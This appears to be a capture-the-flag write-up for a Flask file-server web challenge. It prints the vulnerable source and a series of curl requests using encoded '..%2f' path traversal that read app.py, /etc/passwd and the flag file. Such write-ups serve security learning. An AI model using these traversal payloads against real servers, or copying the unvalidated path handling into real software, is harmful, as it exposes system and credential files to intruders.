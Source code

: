 ## SSFS [50 pts]

**Category:** Web
**Solves:** 244

## Description
I made a file server to easily share my files with my friends. Nobody has hacked it yet, so I'm sure it's secure.

ssfs.challs.pwnoh.io 

### Solution

We are given a webpage that we can upload files and also search for existing files and download them.
![image1](images/image1.png)

The source code is also provided:
```python
from flask import Flask, request, render_template, send_file
from uuid import uuid4
import os
import hashlib

app = Flask(__name__)
app.config['MAX_CONTENT_LENGTH'] = 1024 * 1024 # 1MB

file_exts = {}

@app.route('/')
def index():
    return render_template('index.html')

def clear_uploads():
    upload_dir = 'uploads'
    if not os.path.exists(upload_dir):
        os.mkdir(upload_dir)

    files = os.listdir(upload_dir)
    if len(files) > 50:
        for file in files:
            os.remove(os.path.join(upload_dir, file))

@app.route('/upload', methods=['POST'])
def upload():
    file = request.files['file']
    ext = file.filename.split('.')[-1]

    if not file:
        return {'status': 'error', 'message': 'No file uploaded'}
    
    if ext not in ['png', 'jpg', 'jpeg', 'gif', 'bmp', 'webp']:
        return {'status': 'error', 'message': 'Invalid file type'}
    
    clear_uploads()

    file_id = str(uuid4())
    file_exts[file_id] = ext

    os.makedirs('uploads', exist_ok=True)
    
    with open(f'uploads/{file_id}', 'wb') as f:
        f.write(file.read())

    return {'status': 'success', 'message': 'File uploaded successfully', 'id': file_id}

@app.route('/search/<path:file_id>')
def search(file_id):
    print('uploads/' + file_id)
    if not os.path.exists('uploads/' + file_id):
        return {'status': 'error', 'message': 'File not found'}, 404

    return {'status': 'success', 'message': 'File found', 'id': file_id}

def filter_file_id(file_id : str):
    if len(file_id) > 36: # uuid4 length
        return None
    
    return file_id

@app.route('/download/<path:file_id>')
def download(file_id):
    file_id = filter_file_id(file_id)

    if file_id is None:
        return {'status': 'error', 'message': 'Invalid file id'}, 400

    if not os.path.exists('uploads/' + file_id):
        return {'status': 'error', 'message': 'File not found'}, 404
    
    if not os.path.isfile('uploads/' + file_id):
        return {'status': 'error', 'message': 'Invalid file id'}, 400

    return send_file('uploads/' + file_id, download_name=f"{file_id}.{file_exts.get(file_id, 'UNK')}")


if __name__ == '__main__':
    app.run(debug=True)
```

It's just a simple flask application with some routes.
Checking the source we can see there is not much of a validation on `download/<path:file_id>` and `search/<path:file_id>` routes.
The `file_id` is not validated properly and you can send file path on os and try to fetch files from it.

Let's try some tests:
```bash
$ curl "https://ssfs.challs.pwnoh.io/search/app.py"
{"message":"File not found","status":"error"}

$ curl "https://ssfs.challs.pwnoh.io/search/../app.py"
<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>

$ curl "https://ssfs.challs.pwnoh.io/search/..%2fapp.py"
{"id":"../app.py","message":"File found","status":"success"}

```

As you can see we were able to check if file exist on server by using `..%2f` bypassing. 
Now let's see if we can read that file too using `download` route:

```bash
$ curl "https://ssfs.challs.pwnoh.io/download/..%2fapp.py"
from flask import Flask, request, render_template, send_file
from uuid import uuid4
import os
import hashlib

app = Flask(__name__)
app.config['MAX_CONTENT_LENGTH'] = 1024 * 1024 # 1MB

file_exts = {}

@app.route('/')
def index():
    return render_template('index.html')

def clear_uploads():
    upload_dir = 'uploads'
    if not os.path.exists(upload_dir):
        os.mkdir(upload_dir)
.
.
....

```

As you can see we are able to read any file from server.
Let's try to read files from out of scope of application in os:
```bash
$ curl "https://ssfs.challs.pwnoh.io/download/..%2f..%2f..%2f..%2f..%2fetc/passwd"

root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

checking Dockerfile:
```
COPY flag.txt /flag.txt
```

We know flag is that `/flag.txt` route. let's try to read it. use `../` to go as many as folders backward to get to the flag.

```bash
$ curl "https://ssfs.challs.pwnoh.io/download/..%2f..%2f..%2f..%2f..%2fflag.txt"
bctf{flaghere}⏎
```
